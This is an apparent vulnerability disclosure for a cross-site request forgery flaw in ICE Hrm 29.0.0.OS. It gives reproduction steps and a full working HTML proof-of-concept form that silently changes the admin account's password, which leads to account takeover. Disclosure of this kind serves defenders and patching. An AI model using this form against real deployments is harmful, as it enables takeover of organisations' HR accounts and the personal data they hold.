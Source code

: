 # Author
Rafal Lykowski & Piyush Patil

# Description
ICE Hrm Version 29.0.0.OS is vulnerable to CSRF which allows attacker to add new admin account or change the password leading to full account takeover.

# Steps to reproduce the issue
1- Login as victim 

2- Open the CSRF malicious file which I have attached (csrf_POC.html)
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8070/app/service.php">
      <input type="hidden" name="t" value="User" />
      <input type="hidden" name="a" value="ca" />
      <input type="hidden" name="sa" value="changePassword" />
      <input type="hidden" name="mod" value="admin&#61;users" />
      <input type="hidden" name="req" value="&#123;&quot;id&quot;&#58;1&#44;&quot;pwd&quot;&#58;&quot;Hacker123&#35;&quot;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
3- Password is changed (you can also add new admin user)

Now you can simply takeover the account

# Video POC:
https://drive.google.com/file/d/1uUciTcFEkQ5P_R37QBswNrVbOPqzngpX/view?usp=sharing

# Impact
Full account takeover
